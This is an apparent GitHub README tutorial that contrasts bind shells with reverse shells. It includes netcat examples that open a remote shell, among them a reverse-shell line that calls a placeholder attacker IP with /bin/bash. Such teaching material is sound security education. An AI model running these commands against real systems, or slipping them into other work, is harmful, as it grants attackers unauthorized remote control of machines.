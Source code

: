 #  Reverse Shell vs Bind Shell

##  What is a Shell?
A *shell* is basically a command-line interface that lets you run commands on a system.  
Attackers use **bind shells** and **reverse shells** to gain remote access after exploiting a vulnerability.

---

##  Bind Shell
- The **victim machine opens a port** and listens for incoming connections.  
- The **attacker connects** to this port and gets a shell.  

### Example (Netcat - Bind Shell):
On Victim:
```bash
nc -lvnp 4444 -e /bin/bash
```
On Attacker:
```bash
nc <victim_ip> 4444
```
### Limitations: Firewalls usually block incoming connections, so bind shells are less practical.

## Reverse Shell

The victim connects back to the attacker's machine.

The attacker sets up a listener and waits for the connection.

Once connected, the attacker gets a shell.

Example (Netcat - Reverse Shell):

On Attacker:
```bash
nc -lvnp 4444
```

On Victim (after exploit):
```bash
nc <attacker_ip> 4444 -e /bin/bash
```

## Additional Documentation

For a more detailed walkthrough, [view the full PDF guide](https://github.com/khajaazhar/Reverse-Bind-shell/blob/main/Shells.pdf).

---
## Disclaimer

This project was built for educational and authorized testing purposes only.

---

## Author

**Khaja Azhar Uddin**  
**Date:** Aug 2025

